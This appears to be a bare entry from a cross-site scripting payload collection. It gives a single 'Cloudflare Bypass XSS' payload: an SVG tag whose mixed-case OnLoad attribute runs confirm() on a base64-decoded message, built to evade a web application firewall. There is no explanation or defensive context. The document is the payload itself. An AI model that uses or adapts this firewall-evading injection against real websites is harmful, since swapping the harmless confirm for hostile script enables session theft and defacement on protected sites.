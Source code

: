 # XSS



#### Cloudflare Bypass XSS

```

<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>

```

